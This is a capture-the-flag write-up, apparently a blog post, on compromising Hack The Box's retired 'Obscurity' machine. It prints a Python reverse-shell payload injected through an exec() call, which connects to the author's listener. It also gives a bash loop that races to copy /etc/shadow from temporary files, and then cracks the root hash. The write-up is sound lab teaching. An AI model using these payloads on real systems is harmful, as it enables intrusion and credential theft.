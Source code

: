 ```yaml
---
layout: default
---
```

## Obscurity
###### Retired May 2020
![](https://www.hackthebox.eu/storage/avatars/8c606d79541774c87ab0ee5705821323.png)

##### Intro
Static code analysis! Initial foothold was very easy, user was a little more involved, and root was quick. Full-time developers would absolutely crush this box.

Start off with a quick nmap looking for open ports:
```bash
nmap -sS -n -n obscurity.htb -p 1-65535
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap1.png)

nmap showed ssh and http open on 22 and 8080, respectively. For more information, I ran
```bash
nmap -sV -n obscurity.htb -p 22,80,8080 -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/obscurity/nmap2.png)

It appears as though the website is being ran on a custom web server, confidently named BadHTTPServer. Open up ```http://obscurity.htb:8080``` in Firefox and land on a web page.

![](https://yaboygmoney.github.io/htb/images/obscurity/webpage.png)

Scrolling down, there's a note to the devs that the current source is located in a development directory.

![](https://yaboygmoney.github.io/htb/images/obscurity/devNote.png)

We can find this quickly with a tool called ```wfuzz```. ```wfuzz``` lets you fuzz particular segments of a URL by replacing what part you would like to fuzz with ```FUZZ```. All it needs is a wordlist and the URL. ```wfuzz``` will print out the result of each request it makes, so it's helpful to find only the responses that come back valid. To do that, just take on ```| grep -v 404``` to ingore the 404 File Not Found results. The whole command looks like
```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt http://10.10.10.168:8080/FUZZ/SuperSecureServer.py | grep -v 404
```

![](https://yaboygmoney.github.io/htb/images/obscurity/wfuzz.png)

wfuzz found the valid URL ```http://obscurity.htb:8080/develop/SuperSecureServer.py```. There, we can see the source code for the server.

![](https://yaboygmoney.github.io/htb/images/obscurity/serverCode.png)

Looking down towards the bottom of the code, there are some comments on a couple of lines of code.
```python
def serveDoc(self, path, docRoot):
        path = urllib.parse.unquote(path)
        try:
            info = "output = 'Document: {}'" # Keep the output for later debug
            exec(info.format(path)) # This is how you do string formatting, right?
            cwd = os.path.dirname(os.path.realpath(__file__))
            docRoot = os.path.join(cwd, docRoot)
            if path == "/":
                path = "/index.html"
```

The [exec](https://pythonprogramming.net/python-exec-tutorial/) builtin allows developers (and hackers) to execute python code from within that input. To abuse this for a shell, a netcat listener is required.
```bash
nc -nvlp 1234
````

Now that the listener is set up to catch the shell, we need to send a get request to
```bash
http://obscurity.htb:8080/';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.28",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

This web request injects the [python reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) into the ```exec``` function, causing our payload to be executed. Make the request either via curl or through the browser (I went browser) and bam, shell.

![](https://yaboygmoney.github.io/htb/images/obscurity/initialShell.png)

Once we land on the machine as www-data, we need to elevate our privileges to get user. We can see in the user robert's home directory there is a ```SuperSecureCrypt.py``` file, as well as a ```passwordreminder.txt``` file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/robertDir.png)

Looking at the ```SuperSecureCrypt.py```, the program takes an input file to encrypt or decrypt, a string value for the key, and an output file. 

![](https://yaboygmoney.github.io/htb/images/obscurity/parser.png)

We're also given ```check.txt``` file and the output of the encryption in the form of ```out.txt```. 

![](https://yaboygmoney.github.io/htb/images/obscurity/checkOut.png)

The cool part is that we don't need to reverse engineer the encryption process if we have two pieces already. We can just unmath it. To do that, I sent the input file to be decrypted as the output, the key as the contents of check.txt, and set the ```-d``` option. The output will be the key that was used to encyrpt the file.

```bash
python3 SuperSecureCrypt.py -i out.txt -k "$(cat check.txt)" -d -o /tmp/ybgm.txt
```
The result kicked out the key ```alexandrovich``` several times over. Now we can run the same command again but to decrypt the ```passwordreminder.txt``` file and passing the output of our previous command as the key.

![](https://yaboygmoney.github.io/htb/images/obscurity/keyCrack.png)

```bash
python3 SuperSecureCrypt.py -i passwordreminder.txt -k "($cat /tmp/ybgm.txt)" -o /tmp/ybgm2.txt -d
```

The contents of the new file contain robert's password: ```SecThruObsFTW```.

![](https://yaboygmoney.github.io/htb/images/obscurity/password.png)

Now we can SSH in as robert and get out of this web-based shell and more importantly: get user.

```bash
ssh robert@obscurity.htb
cat user.txt
```

![](https://yaboygmoney.github.io/htb/images/obscurity/user.png)

```sudo -l``` shows that we can run the ```/home/robert/BetterSSH/BetterSSH.py``` file as root.

![](https://yaboygmoney.github.io/htb/images/obscurity/sudoL.png)

The file has permissions of ```-rwxr-xr-x 1 root   root```. I can't change it, as root owns the file, so I need a different way than just overwriting or editing the file. I started looking through the code to find a vulnerability, similar to the web server I exploited earlier.

The code segment that we care the most about looks like this:
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
session = {"user": "", "authenticated": 0}
try:
    session['user'] = input("Enter username: ")
    passW = input("Enter password: ")

    with open('/etc/shadow', 'r') as f:
        data = f.readlines()
    data = [(p.split(":") if "$" in p else None) for p in data]
    passwords = []
    for x in data:
        if not x == None:
            passwords.append(x)

    passwordFile = '\n'.join(['\n'.join(p) for p in passwords]) 
    with open('/tmp/SSH/'+path, 'w') as f:
        f.write(passwordFile)
    time.sleep(.1)
    salt = ""
    realPass = ""
    for p in passwords:
        if p[0] == session['user']:
            salt, realPass = p[1].split('$')[2:]
            break
```

This code is opening up ```/etc/shadow``` and writing the contents to a password file in ```/tmp/SSH``` with a random filename so later it can compare the results of a provided password to authenticate to this 'better' SSH application. Unfortunately, it's deleting the file as soon as it's finished with it, making it impossible to manually read it during program execution. 
```python
if hash == realPass:
        print("Authed!")
        session['authenticated'] = 1
    else:
        print("Incorrect pass")
        os.remove('/tmp/SSH/'+path)
        sys.exit(0)
    os.remove(os.path.join('/tmp/SSH/',path))
except Exception as e:
    traceback.print_exc()
    sys.exit(0)
```

On first run, the code breaks because ```/tmp/SSH``` doesn't exist, so that needs to be created first.
```bash
mkdir /tmp/SSH
```

To catch the contents of the file that is written before it is deleted, I wrote a script that constantly reads the contents of the all of the files in the ```/tmp/SSH``` directory and write them to a new file that wouldn't be deleted. We need to read every file in this directory regardless of name, because the first line of the ```BetterSSH.py``` file is creating a random filename
```python
path = ''.join(random.choices(string.ascii_letters + string.digits, k=8))
```

The script to catch the temp files looks like:

```bash
#!/bin/bash

while :
do
  cat /tmp/SSH/* >> /tmp/results.txt
done
```
I kicked off that script and then I used another window to SSH back in as robert. Then I ran
```bash
sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```
and logged in as robert and then killed the execution of my other script. Then I opened the ```/tmp/results.txt``` file and had the contents of the shadow file.

![](https://yaboygmoney.github.io/htb/images/obscurity/dumped.png)

From there, it was as easy as running the hash through ```john``` and logging in.

![](https://yaboygmoney.github.io/htb/images/obscurity/crackedRoot.png)

![](https://yaboygmoney.github.io/htb/images/obscurity/root.png)

![](https://media.giphy.com/media/l4JySAWfMaY7w88sU/giphy.gif)
